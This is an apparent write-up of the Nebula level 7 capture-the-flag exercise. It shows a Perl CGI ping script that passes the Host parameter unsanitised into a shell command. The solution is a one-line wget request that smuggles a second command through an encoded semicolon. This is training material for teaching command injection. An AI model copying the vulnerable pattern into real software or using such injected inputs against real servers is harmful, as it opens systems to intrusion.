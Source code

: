 .. _nebula07:

.. role:: bash(code)
	  :language: bash

.. role:: pearl(code)
	  :language: perl
		     
Nebula 7
========

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level07/

**Source Code**

.. code-block:: perl
		
		#!/usr/bin/perl

		use CGI qw{param};

		print "Content-type: text/html\n\n";

		sub ping {
		    $host = $_[0];

		    print("<html><head><title>Ping results</title></head></body><pre>");

		    @output = `ping -c 3 $host 2>&1`;
		    foreach $line (@output) { print "$line"; }

		    print("</pre></body></html>");

		}

		# check if Host set. if not, display normal page, etc

		ping(param(“Host”))

Solution
--------

:bash:`wget nebula's<IP>/index.cgi?Host=%3Bgetflag`
